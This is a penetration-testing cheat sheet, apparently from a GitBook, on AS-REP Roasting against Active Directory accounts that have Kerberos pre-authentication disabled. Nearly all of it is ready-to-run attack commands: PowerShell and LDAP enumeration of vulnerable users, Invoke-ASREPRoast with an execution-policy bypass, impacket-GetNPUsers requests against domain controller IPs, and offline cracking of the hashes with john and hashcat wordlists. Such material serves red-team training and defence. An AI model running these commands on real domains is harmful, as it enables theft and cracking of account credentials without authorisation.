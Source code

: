 # AS-REP Roasting

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption><p>auth rep</p></figcaption></figure>

{% hint style="info" %}
If a user's UserAccountControl settings have "Do not require Kerberos pre-authentication" enabled, i.e., Kerberos auth disabled, it is possible to grab the user's crackable AS-REP and brute-force it offline.
{% endhint %}

### Enumeration

```powershell
Get-NetUser -PreauthNotRequired 
Get-DomainUser -PreauthNotRequired -Verbose
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True}
```



> Powershell script to know users have weak config (<mark style="color:red;">**Don't req preAuth**</mark>)
>
> {% code title="preAuthRoasting.ps1" %}
> ```powershell
> $strFilter = “(&(objectCategory=User)(userAccountControl:1.2.840.113556.1.4.803:=4194304))”
> $objDomain = New-Object System.DirectoryServices.DirectoryEntry
> $objSearcher = New-Object System.DirectoryServices.DirectorySearcher
> $objSearcher.SearchRoot = $objDomain
> $objSearcher.Filter = $strFilter
> $objSearcher.SearchScope = “Subtree”
> $colProplist = “name”
> foreach ($I in $colPropList){$objSearcher.PropertiesToLoad.Add($i)}
> $colResults = $objSearcher.FindAll()
> $colResults | Format-Table
> ```
> {% endcode %}
>
> ```powershell
> #Use ASREPRoast
> powershell.exe -ep bypass
> import-moudle .\preAuthRoasting.ps1
> Invoke-ASREPRoast -Verbose
> Invoke-ASREPRoast -Domain wargrey.mon -Server 192.168.1.50 | select -expand Hash
> ```

### Impacket

```bash
impacket-GetNPUsers hacktor.local/ -usersfile <userfile> -dc-ip 192.168.1.50
john --wordlist=words.txt hash.txt

impacket-GetNPUsers services.local/ -usersfile users.txt -request -format hashcat -outputfile asreproast.txt -dc-ip 10.10.175.105 
#crack Using John
#windows env
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
#Linux env
john --wordlist=/usr/shere/wordlists/rockyou hash.txt 
#OR https://hashcat.net/wiki/doku.php?id=<Algo-Number>
hashcat -m <Algo-Number> hash.txt /usr/share/wordlists/rockyou.txt --show


```

Resources

{% embed url="https://blog.harmj0y.net/activedirectory/roasting-as-reps/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}

{% embed url="https://github.com/jwardsmith/Active-Directory-Exploitation#asreproast" %}
